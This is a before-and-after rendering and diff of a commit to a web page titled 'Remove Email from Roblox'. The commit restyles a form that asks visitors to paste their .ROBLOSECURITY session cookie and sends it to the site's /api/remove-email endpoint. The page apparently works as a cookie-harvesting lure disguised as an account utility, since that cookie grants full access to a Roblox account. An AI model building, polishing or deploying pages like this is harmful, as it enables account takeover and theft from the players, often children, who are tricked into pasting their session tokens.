

Before and after one commit to WeAreDevs-ops/test-app, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (332-972 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -2,51 +2,93 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1">
   <title>Remove Email from Roblox</title>
   <style>
     body {
-      font-family: sans-serif;
-      max-width: 400px;
-      margin: 60px auto;
-      padding: 20px;
+      background: #f4f6f8;
+      font-family: Arial, sans-serif;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+    }
+    .container {
+      background: white;
+      padding: 30px;
+      border-radius: 12px;
+      box-shadow: 0 0 20px rgba(0,0,0,0.1);
+      max-width: 500px;
+      width: 100%;
+    }
+    h2 {
+      margin-top: 0;
+      color: #333;
+    }
+    textarea, button {
+      width: 100%;
+      padding: 12px;
+      margin-top: 10px;
+      font-size: 16px;
+    }
+    textarea {
+      resize: vertical;
       border: 1px solid #ccc;
-      border-radius: 12px;
-      background: #f9f9f9;
+      border-radius: 6px;
     }
-    input, button {
-      width: 100%;
-      margin-top: 12px;
-      padding: 10px;
-      font-size: 14px;
+    button {
+      background: #e53935;
+      color: white;
+      border: none;
+      border-radius: 6px;
+      cursor: pointer;
+    }
+    button:hover {
+      background: #d32f2f;
     }
     .result {
-      margin-top: 20px;
+      margin-top: 15px;
       font-weight: bold;
+      color: #333;
+      white-space: pre-line;
     }
   </style>
 </head>
 <body>
+  <div class="container">
     <h2>Remove Email from Roblox</h2>
-  <input type="text" id="cookie" placeholder=".ROBLOSECURITY Cookie" />
-  <button onclick="removeEmail()">Remove Email</button>
+    <form id="removeForm">
+      <label for="cookieInput">Paste your .ROBLOSECURITY cookie:</label>
+      <textarea id="cookieInput" rows="4" placeholder="_|WARNING:-DO-NOT-SHARE-THIS..."></textarea>
+      <button type="submit">Remove Email</button>
+    </form>
     <div class="result" id="result"></div>
+  </div>
 
   <script>
-    async function removeEmail() {
-      const cookie = document.getElementById('cookie').value;
+    document.getElementById('removeForm').addEventListener('submit', async (e) => {
+      e.preventDefault();
+      const cookie = document.getElementById('cookieInput').value.trim();
       const resultDiv = document.getElementById('result');
+      resultDiv.textContent = "⏳ Processing...";
 
+      try {
         const res = await fetch('/api/remove-email', {
           method: 'POST',
-        headers: {
-          'Content-Type': 'application/json'
-        },
+          headers: { 'Content-Type': 'application/json' },
           body: JSON.stringify({ cookie })
         });
 
         const data = await res.json();
-      resultDiv.innerText = data.success ? '✅ Email removed' : '❌ Failed: ' + (data.message || 'Unknown error');
+        if (data.success) {
+          resultDiv.textContent = `✅ ${data.message}`;
+        } else {
+          resultDiv.textContent = `❌ Failed: ${data.error || 'Unknown error'}`;
         }
+      } catch (err) {
+        resultDiv.textContent = `❌ Request failed: ${err.message}`;
+      }
+    });
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
